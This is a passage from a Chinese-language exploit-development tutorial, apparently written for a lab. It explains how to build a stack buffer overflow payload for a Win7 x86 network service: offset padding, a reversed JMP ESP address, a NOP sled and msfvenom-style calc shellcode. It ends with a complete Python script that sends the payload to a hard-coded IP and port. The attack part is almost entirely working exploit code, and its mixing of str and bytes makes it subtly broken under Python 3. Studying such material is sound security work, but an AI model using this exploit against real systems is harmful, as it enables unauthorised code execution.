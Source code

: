   
那么分析完毕后我们使用win7 x86环境,使用kali生成x86的shellcode  
  
  
生成弹窗计算器并且排除掉坏字符  
  
![](https://mmbiz.qpic.cn/mmbiz_png/aFJv52grsibvbIqzjDZxRvsjicT6Lg70AhWewyNoLtz9L9fQ9QDmqrJJpY6J7rUziaX0MzkZFSjZxbm2H5dovMia4Q/640?wx_fmt=png "")  
  
那么生成shellcode后,我们就需要构造payload了  
```
Payload=字符填充+JMP ESP+nop+shellcode
```  
  
字符填充也就是偏移量的146个A；JMP ESP就是我们  
!mona jmp -r esp  
后显示的两个可以JMP ESP的地址,但是栈是先进后出的顺序,所以  
0x080414c3  
就需要反着来,就要写成  
\c3\14\04\08  
也就是  
\xc3\x14\x04\x08;0x080416bf  
就需要写成  
\bf\16\04\08  
也就是  
\xbf\x16\x04\x08  
  
  
那么python如下  
  
```
import socket


s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(('172.30.193.125',31337))


tc="A"*146
eip="\xc3\x14\x04\x08"
nop="\x90"*16


code =  b""
code += b"\xdb\xd4\xd9\x74\x24\xf4\xb8\xab\xd9\x08\xbc\x5b"
code += b"\x29\xc9\xb1\x36\x31\x43\x18\x83\xeb\xfc\x03\x43"
code += b"\xbf\x3b\xfd\x40\x57\x39\xfe\xb8\xa7\x5e\x76\x5d"
code += b"\x96\x5e\xec\x15\x88\x6e\x66\x7b\x24\x04\x2a\x68"
code += b"\xbf\x68\xe3\x9f\x08\xc6\xd5\xae\x89\x7b\x25\xb0"
code += b"\x09\x86\x7a\x12\x30\x49\x8f\x53\x75\xb4\x62\x01"
code += b"\x2e\xb2\xd1\xb6\x5b\x8e\xe9\x3d\x17\x1e\x6a\xa1"
code += b"\xef\x21\x5b\x74\x64\x78\x7b\x76\xa9\xf0\x32\x60"
code += b"\xae\x3d\x8c\x1b\x04\xc9\x0f\xca\x55\x32\xa3\x33"
code += b"\x5a\xc1\xbd\x74\x5c\x3a\xc8\x8c\x9f\xc7\xcb\x4a"
code += b"\xe2\x13\x59\x49\x44\xd7\xf9\xb5\x75\x34\x9f\x3e"
code += b"\x79\xf1\xeb\x19\x9d\x04\x3f\x12\x99\x8d\xbe\xf5"
code += b"\x28\xd5\xe4\xd1\x71\x8d\x85\x40\xdf\x60\xb9\x93"
code += b"\x80\xdd\x1f\xdf\x2c\x09\x12\x82\x3a\xcc\xa0\xb8"
code += b"\x08\xce\xba\xc2\x3c\xa7\x8b\x49\xd3\xb0\x13\x98"
code += b"\x90\x4f\x5e\x81\xb0\xc7\x07\x53\x81\x85\xb7\x89"
code += b"\xc5\xb3\x3b\x38\xb5\x47\x23\x49\xb0\x0c\xe3\xa1"
code += b"\xc8\x1d\x86\xc5\x7f\x1d\x83\x85\x45\xbd\x5b\x63"
code += b"\xd7\x59\xcb\x04\x54\xfe\x60\x92\xe9\x8a\xe3\x09"
code += b"\x3e\x41\xb0\xb2\x21\xc9\x2b\x1b\xc4\x69\xc9\x63"




s.send(tc+eip+nop+code+'\r\n')
```